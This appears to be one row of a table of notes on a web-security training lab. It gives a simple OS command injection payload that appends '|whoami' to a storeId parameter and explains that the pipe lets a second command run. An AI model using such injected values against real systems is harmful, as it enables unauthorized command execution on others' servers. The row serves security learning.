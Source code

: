 |80    |OS command injection, simple case                                                                                        |productId=1&storeId=1&#124;whoami                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |StoreId parameter, use the &#124; to split the statement and then inject a new command.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |Apprentice, OS Command Injection            |